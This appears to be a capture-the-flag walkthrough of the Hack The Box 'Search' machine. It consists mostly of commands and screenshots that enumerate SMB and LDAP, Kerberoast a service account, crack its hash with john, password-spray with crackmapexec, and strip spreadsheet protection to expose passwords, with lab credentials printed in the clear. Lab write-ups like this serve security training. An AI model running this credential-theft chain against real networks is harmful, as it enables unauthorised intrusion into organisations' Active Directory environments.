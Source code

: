 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699143-58aa6593-510f-4de6-be67-cbf555c08f22.png)


hope.sharp | IsolationIsKey?

![image](https://user-images.githubusercontent.com/33616880/230699047-df9e814d-0ef6-4377-97bd-72824e5dd6e5.png)


```
smbclient -L \\\\10.10.11.129\\ -U search.htb/hope.sharp
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
```
![image](https://user-images.githubusercontent.com/33616880/230700602-75be21ee-a7d1-4ed8-8465-1a226ae419f0.png)
![image](https://user-images.githubusercontent.com/33616880/230700731-c773018c-6f8d-4ed7-8812-ced8a52b3d05.png)


```
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699359-15a9ef35-6723-4822-b1e6-ab93ec59e2cb.png)
![image](https://user-images.githubusercontent.com/33616880/230699421-3b664dda-82d1-473a-8c1f-2b29de81fb90.png)


```
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
```
![image](https://user-images.githubusercontent.com/33616880/230699598-ab7213a0-fb91-4395-a5b0-345b7e2fb34a.png)


```
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
```
web_svc | @3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230699690-2850b510-c824-49fa-a20f-c4a3044c0fc1.png)


![image](https://user-images.githubusercontent.com/33616880/230699760-4770c7a8-b7ee-4a9d-9398-d2298e8863e4.png)


```
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
```
![image](https://user-images.githubusercontent.com/33616880/230700117-68ed59b8-9ab2-4831-be38-7421ada171f7.png)



```
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
```
search.htb\Edgar.Jacobs:@3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230700260-1809d1ec-e297-4d00-9ba5-5213526fed84.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Edgar.Jacobs
```
![image](https://user-images.githubusercontent.com/33616880/230700969-8a257621-812a-4357-b398-5949598ce182.png)


![image](https://user-images.githubusercontent.com/33616880/230701046-18ec17fc-1694-4a03-9a76-90f26e1ae622.png)
```
unzip Phishing_Attempt.xlsx
sed -i 's/<sheetProtection[^>]*>//' xl/worksheets/sheet2.xml
zip -fr Phishing_Attempt.xlsx *
```
Sierra.Frye | $$49=wide=STRAIGHT=jordan=28$$18

![image](https://user-images.githubusercontent.com/33616880/230701177-73c2b4d3-8c15-4e0d-9930-900c7ce19fcf.png)
![image](https://user-images.githubusercontent.com/33616880/230701253-86e219b9-7f85-4d24-a73a-479962c1c0fa.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Sierra.Frye
```
![image](https://user-images.githubusercontent.com/33616880/230701438-ca0a0370-ad85-4b25-bb67-c9491f61bde8.png)
![image](https://user-images.githubusercontent.com/33616880/230701452-c57c8661-21de-4ef7-bc42-0e57ef04ab48.png)
![image](https://user-images.githubusercontent.com/33616880/230701555-c290fc03-b77a-4471-8dbf-3ebf49ad7348.png)


